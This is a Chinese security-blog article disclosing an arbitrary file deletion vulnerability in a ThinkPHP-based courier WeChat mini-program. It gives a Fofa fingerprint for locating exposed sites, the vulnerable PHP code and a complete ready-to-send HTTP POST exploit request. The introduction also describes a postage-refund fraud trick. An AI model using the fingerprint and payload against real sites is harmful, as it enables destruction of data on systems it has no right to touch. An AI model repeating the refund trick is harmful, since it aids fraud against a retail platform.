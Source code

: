 #  (1day)某最新版快递微信小程序系统存在前台任意文件删除漏洞   
原创 Mstir  星悦安全   2024-11-02 12:26  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字关注我们 并设为  
星标  
## 0x00 系统简介  
  
**源码站简介:2024最新版快递跑腿微信小程序，支持 查快递，查运费，分享佣金，修改地址，个人中心等功能，现在电商平台退换货量大，快递需求量大，对接物流一个单子4块到6块之间 其中间是例如润 其余的 就不说了吧 互站上买的源码 分享一下 还有个方法赚钱就是 拼多多退货自己邮寄 5块钱 运费自己填写12元 白捡7元美滋滋.**  
  
**Fofa指纹:"/static/default/newwap/lang/js/jquery.localize.min.js"**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dic3NsXqD6rYxfszKo3AqUrtHADGxl3mz5kAm8OzmL2Y5eYjBOqdu12TauJCkqAU5vwnj2PuUGITg/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5dic3NsXqD6rYxfszKo3AqUrUcjnR9ZAFaeZUx08R5RFia9xlSGJcQ6XPmU8FkiciaL47Nkwm7Eib8zvMw/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5dic3NsXqD6rYxfszKo3AqUrJiaKG2kZaubll7KJqzIHXTuQP0RXgZRER2EAkT11J9s7ZVKgUENTvvA/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
**框架:ThinkPHP 5.1.0 Debug:True**  
## 0x01 漏洞分析&复现  
  
**位于 /public/qiniu_ueditor/php/vendor/Local.class.php 控制器的 remove 方法存在unlink函数，且传参可控，导致漏洞产生.**  
```
/**
* 删除文件方法
* 
* @author widuu <admin@widuu.com>
*/

public function remove(){
  $file = trim($_POST['key']);
  $config    = $this->config;
  $root_path = $config['root_path'];
  $file_path = $root_path.$file;
  if( file_exists($file_path) ){
    $result = @unlink($file_path);
    if( $result ){
      return array(
        'state' => 'SUCCESS'
      );
    }else{
      return array(
        'state' => 'ERROR',
        'error' => 'delete file error'
      );
    }
  }

  return array(
    'state' => 'ERROR',
    'error' => 'file not exists'
  );
}
```  
  
**Payload (删除根目录中的1.png文件):**  
```
POST /public/qiniu_ueditor/php/controller.php?action=remove HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 13
Content-Type: application/x-www-form-urlencoded
Cookie: think_var=zh-cn; PHPSESSID=5cg6kramfusrb94homfj2q7ku1; thinkphp_show_page_trace=0|0; admin=think%3A%7B%22admin_id%22%3A%221%22%2C%22type%22%3A%221%22%2C%22user_id%22%3A%221%22%2C%22username%22%3A%22admin%22%2C%22password%22%3A%2221232f297a57a5a743894a0e4a801fc3%22%2C%22role_id%22%3A%221%22%2C%22city_id%22%3A0%2C%22area_id%22%3A0%2C%22business_id%22%3A0%2C%22mobile%22%3A%2218888888888%22%2C%22lock_admin_mum%22%3A0%2C%22is_lock%22%3A%221%22%2C%22is_admin_lock%22%3A0%2C%22is_admin_lock_time%22%3A0%2C%22create_time%22%3A%221497679379%22%2C%22create_ip%22%3A%2227.13.26.84%22%2C%22last_time%22%3A%221603174799%22%2C%22last_ip%22%3A%2249.118.246.1%22%2C%22is_ip%22%3A0%2C%22is_username_lock%22%3A0%2C%22closed%22%3A0%2C%22role_name%22%3A%22%25E5%2585%25AC%25E5%258F%25B8%25E6%2580%25BB%25E9%2583%25A8%22%7D
Host: 127.0.0.1
Origin: http://127.0.0.1
Referer: http://127.0.0.1/public/qiniu_ueditor/php/controller.php?action=remove
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
sec-ch-ua: "Chromium";v="130", "Google Chrome";v="130", "Not?A_Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-user: ?1

key=./1.png
```  
  
****![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5e5Iib8qJwofo7iaNeic6vMsr2NgkbkjU02BzHOs7NWk4eDzylokEanCNgKbxrF9NEBVlGJk50l1zuhA/640?wx_fmt=other&from=appmsg "")  
## 0x02 源码下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
**快递小程序源码关注公众号发送 241031 获取!**  
  
  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
